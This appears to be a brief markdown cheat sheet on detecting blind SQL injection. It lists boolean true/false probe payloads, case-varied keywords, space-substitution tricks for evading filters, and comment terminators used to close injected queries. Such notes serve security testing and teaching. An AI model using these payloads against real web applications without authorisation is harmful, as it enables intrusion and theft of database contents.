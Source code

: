 SQLi or SQL injection is a web application vulnerability allows an attacker to bypass logins and extract sensitive data from the database.

## Blind SQLi
Another type of sql injection attack where error does not shown to the user.
### How to indentify blind SQLi:
Test it by making payloads true, for eg.:
  `1' and 1 = 1 #` this statement is true and should return the normal data
  `1' and 1 = 2 #` this statement is false and will not return any data without showing any error.

If both payloads work mean site is vulnerable to blind SQLi but not showing error on wrong SQLi pyload.

Examples of TRUE statements for discovering sqli
```
aNd 1=1
aNd 21=21
orDeR bY 1
```

Examples of FALSE statements
```
dNd 0=1
anD 9=2
ordEr bY 1000000000000
```

Characters to use instead of spaces:
```
+, /**/, %20
Examples: orDeR bY 1 can be re-written as
orDer+bY+1
orDer/**/bY/**/1
orDer%20bY%201
```

Comments to end the quries:
```
/*
//
#
%23
```

Ps: sometimes you might need to add ';' before the comment, examples:
```
anD 1=1//
anD 1=1;//
```
